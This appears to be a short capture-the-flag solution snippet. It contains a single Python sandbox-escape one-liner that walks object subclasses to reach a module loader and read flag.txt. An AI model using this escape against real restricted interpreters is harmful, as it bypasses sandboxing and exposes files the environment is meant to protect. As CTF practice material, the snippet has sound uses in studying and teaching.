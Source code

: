 Solution:

```
().__class__.__base__.__subclasses__()[120]().load_module('io').open('flag.txt').read()
```
